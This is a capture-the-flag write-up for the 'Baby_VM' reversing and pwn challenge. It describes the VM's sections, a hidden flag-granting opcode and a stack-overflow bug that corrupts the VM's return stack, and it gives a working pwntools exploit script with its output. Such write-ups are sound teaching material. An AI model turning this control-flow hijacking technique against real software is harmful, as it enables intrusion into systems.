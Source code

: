# Baby_VM

## Abstract

Reversing is not so hard, and pwning is also not that hard. The most annoying part of this challenge is making disassembler, since it has massive opcodes, and nearly every opcode is used.

Because too many CTFs released VM challenges without making big differences, VM category now seems little-bit outdated, and boring. I think developing VM challenges reaches some kind of critical point.

This challenge is not much different from those past challenges. It needs a usual 3 steps to solve it.

1. Make disassembler, and disassemble byte codes.
2. Find vulnerability from assembly code.
3. Do exploit.

It is pretty time consuming and consists of boring repetitive jobs. 

If you are not friendly with VM challenges, it would be a nice starting point to learn what it is. But if you are used to it, you don't need to spend your time to solve it.

---

## Analyze

### Bytecodes

![1564388830383](assets/1564388830383.png)

Bytecodes are located at 0x205020, and size of it is 0x17D. In runtime, it is copied to data section of VM.



### Sections

![1564388894959](assets/1564388894959.png)

There are three sections.

1. data : global data & codes(0x4000 ~ 0x5000)
2. stack : temporal data
3. return stack : save IP to return

Return stack is unusual one. It only saves IP to return. Maybe it is inspired by safe stack or shadow stack.



### Dispatcher 

![1564389288951](assets/1564389288951.png)

Here is massive one. This VM decodes 42 ordinary opcodes, and one backdoor opcode. 

The backdoor opcode(0xff) uses operand that is 0x13 bytes long. It compare operand with `PleaseGiveMeTheFlag`, and if it is same, it would give you the flag.



---

## Disassemble

I won't show my disassembler code, and disassembled code here, because it's too long. If you want to see the original, you can find it in same git directory.

---

## Find vulnerability

Vulnerability is at `show elements`.

Here is snippet of vulnerable point: 

```assembly
#show elements
...

228:
sub $sp, 0x40
mov $reg9, $reg0
mov $reg1, 0x0
mov $reg0, DWORD PTR chunk[$reg9][$reg1+1]
mov $reg3, DWORD PTR chunk[$reg0]
mov $reg4, 0x0
mov $reg7, $reg3
sub $reg7, $reg4
test $reg7
jz 267

257:
mov $reg1, DWORD PTR chunk[$reg0][$reg4+1]
mov $stack[0xcc0+$reg4], $reg1
add $reg4, $reg15
jmp 249
mov $reg2, 0x0
write(1,stack[0xcc0+$reg2],0x3)
mov $reg0, 0x489c
mov $reg1, 0x1
write(1, data[$reg0], $reg1)
mov $reg1, 0x1
mov $reg0, DWORD PTR chunk[$reg9][$reg1+1]
call 223
add $sp, 0x40
ret
```

We can subtract `$sp` with value of `0x40 * num_of_elements`. Stack size is 0x1000, and return stack is above it. So if we push element enough, we can expand our stack to return stack.

Also because data of elements are copied to stack, we can write arbitrary data into stack.

With those two facts, we can write any address into return stack. It means we can control its IP.

---

## Exploit

Exploit is pretty short.

Here is exploit:

```python
from pwn import *

p=process("./baby_vm.elf")

sa = lambda x,y : p.sendafter(x,y)

def push(a):
    sa(">>>",'1')
    sa("content: ",a)

def show():
    sa(">>>","2")

def pop():
    sa(">>>","3")
    
for i in range(0x75):
    print i
    push((p32(0x1)+p32(0x80))*0x10) #Expand stack enough

p.sendafter(">>>","2\x28\x45\x06") #Trigger vuln
p.send("\xffPleaseGiveMeTheFlag") #Do backdoor operation

p.interactive()
```

1. Expand stack to reach return stack. 
   Because choice buf(4bytes) is controllable, and it's at data section(offset = 0), we would move our IP to this buf for further step.

2. List elements & set choice buf

   Bytecodes `\x28\x45\x06` is same as this pesudo code:

   ```c
   read(0,data[$reg5],$reg4) // $reg4 = $reg5 = 0x80
   return
   ```

3. Send backdoor command
   Top of the return stack is 0x80. So after return, IP will be at 0x80. All we need to do is write backdoor operation at data[0x80].



Here is exploit result:

```
...
\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00
\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00
FLAGFLAGFLAGFLAG
```







